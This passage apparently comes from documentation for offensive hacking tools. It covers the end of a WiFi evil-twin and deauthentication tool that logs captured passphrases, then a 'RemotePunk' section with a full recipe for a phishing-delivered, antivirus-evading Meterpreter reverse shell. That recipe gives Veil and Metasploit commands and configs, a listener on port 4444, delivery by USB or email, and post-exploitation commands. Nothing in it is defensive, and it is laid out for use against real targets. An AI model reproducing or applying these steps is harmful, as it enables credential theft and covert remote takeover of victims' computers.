 ### Usage
- **Setup**: `sudo apt install aircrack-ng hostapd-wpe macchanger`, compatible WiFi adapter (e.g., RTL8187 chipset).
- **Run**: `sudo python3 hackedpunk.py`—auto-selects target, spawns threads for AP and deauth.
- **Output**: 
  - `/var/log/hostapd-wpe.log`: Raw STA/passphrase logs.
  - `/tmp/captured_creds.txt`: Parsed credentials.
  - `hackedpunk.log`: Debug info—`%(asctime)s | %(levelname)s | %(message)s`.

---

## 2. RemotePunk: Phishing Reverse Shell

### Purpose
Generates an AV-evading reverse shell payload for remote access—targets off-network systems via phishing.

### Technical Process
1. **Generate Payload**:
   - **Command**: `veil -r veil.rc`
   - **Config**: `veil.rc`—`use Evasion`, `use windows/meterpreter/reverse_tcp`, `set LHOST <ip>`, `set LPORT 4444`, `set use_arya Y`, `generate`, `set output_file /tmp/remotepunk_veil.exe`.
   - **Details**: Veil encrypts payload with Arya (random cipher), outputs 32-bit EXE—size ~300-500KB, avoids static signatures.
2. **Setup Listener**:
   - **Command**: `msfconsole -r listener.rc`
   - **Config**: `listener.rc`—`use multi/handler`, `set PAYLOAD windows/meterpreter/reverse_tcp`, `set LHOST <ip>`, `set LPORT 4444`, `set ExitOnSession false`, `exploit -j`.
   - **Details**: Runs in job mode (`-j`), binds to TCP 4444—expects Meterpreter handshake (TCP reverse connection).
3. **Deliver**: 
   - **Details**: Manual—EXE copied via USB/email, executed by target (e.g., `double-click`), initiates outbound TCP to `LHOST:LPORT`.

### Tools
- **Kali**: 
  - `veil`: Payload obfuscation—requires Wine for Windows binary generation.
  - `msfvenom`: Base payload generator (used by Veil).
  - `metasploit-framework`: Listener (`multi/handler`).

### Usage
- **Setup**: `sudo apt install veil metasploit-framework`, run `veil` once (`/usr/share/veil/config/setup.sh --force`).
- **Run**: `sudo python3 remotepunk.py`—prompts `LHOST`, outputs `/tmp/remotepunk_veil.exe`.
- **Deploy**: Move EXE to target, start listener—`msfconsole -r listener.rc`.
- **Output**: Meterpreter session (`sessions -i 1`)—commands: `sysinfo`, `shell`, logs in `remotepunk.log`.

---
